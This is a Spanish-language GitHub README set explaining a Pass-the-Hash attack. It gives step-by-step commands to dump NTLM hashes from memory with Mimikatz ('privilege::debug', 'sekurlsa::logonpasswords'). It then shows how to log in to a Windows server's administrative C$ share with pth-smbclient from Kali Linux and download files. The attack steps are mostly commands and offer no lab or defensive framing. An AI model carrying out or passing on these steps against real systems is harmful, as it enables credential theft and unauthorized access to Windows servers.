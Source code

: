 # Pass The Hash con SMBClient

Este repositorio explica cómo utilizar **Pass The Hash (PtH)** para acceder a recursos compartidos SMB en un servidor Windows, extrayendo el hash NTLM desde un equipo Windows y utilizando `pth-smbclient` en una máquina Kali Linux.

## Requisitos
- Acceso a un equipo Windows con privilegios de administrador.
- Una máquina Kali Linux con `pth-toolkit` instalado.
- Conocimientos básicos de PowerShell y Linux.

## Guías
1. [Extraer el hash NTLM en Windows](extract-hash-windows.md)
2. [Usar pth-smbclient en Kali Linux](pth-smbclient-kali.md)

## Scripts
- [Script de PowerShell para extraer hashes con Mimikatz](Scripts/mimikatz-extract-hash.ps1)
- [Script de ejemplo para usar pth-smbclient](Scripts/pth-smbclient-example.sh)

## Contribuciones
Si encuentras algún error o tienes sugerencias, ¡no dudes en abrir un issue o enviar un pull request!

---

### **2. extract-hash-windows.md**
Guía detallada para extraer el hash NTLM en Windows usando Mimikatz.


# Extraer el hash NTLM en Windows

## Requisitos
- Privilegios de administrador en el equipo Windows.
- Herramienta [Mimikatz](https://github.com/gentilkiwi/mimikatz).

## Pasos

1. **Descargar Mimikatz:**
   - Descarga Mimikatz desde su [repositorio oficial](https://github.com/gentilkiwi/mimikatz).

2. **Ejecutar Mimikatz como administrador:**
   - Abre una ventana de PowerShell como administrador.
   - Navega a la carpeta donde descargaste Mimikatz y ejecuta:
     ```powershell
     .\mimikatz.exe
     ```

3. **Extraer hashes NTLM:**
   - Dentro de Mimikatz, ejecuta los siguientes comandos:
     ```bash
     privilege::debug
     sekurlsa::logonpasswords
     ```
   - Busca el hash NTLM del usuario administrador en la salida. Ejemplo:
     ```
     NTLM Hash: 32ED87BDB5FDC5E9CBA88547376818D4
     ```

4. **Guardar el hash:**
   - Anota el hash NTLM para usarlo en Kali Linux.


![imagen](https://github.com/90l3m0np13/PassTheHash/blob/main/Imagenes/mimikatz.png)


---

### **3. pth-smbclient-kali.md**
Guía para usar `pth-smbclient` en Kali Linux.


# Usar pth-smbclient en Kali Linux

## Requisitos
- Hash NTLM del usuario administrador.
- Herramienta `pth-toolkit` instalada en Kali Linux.

## Pasos

1. **Instalar pth-toolkit:**
   - Abre una terminal en Kali Linux y ejecuta:
     ```bash
     sudo apt update
     sudo apt install pth-toolkit
     ```

2. **Autenticarse con pth-smbclient:**
   - Usa el siguiente comando para acceder al servidor:
     ```bash
     pth-smbclient //IPDelServidor/RecursoCompartido -U Usuario%HashNTLM
     ```
   - Ejemplo:
     ```bash
     pth-smbclient //192.168.1.10/C$ -U Administrador%32ED87BDB5FDC5E9CBA88547376818D4
     ```

3. **Navegar por los archivos:**
   - Usa comandos como `ls`, `cd`, y `get` para explorar y descargar archivos.

## Ejemplo de salida de pth-smbclient
![imagen](https://github.com/90l3m0np13/PassTheHash/blob/main/Imagenes/pth-smbclient.png)


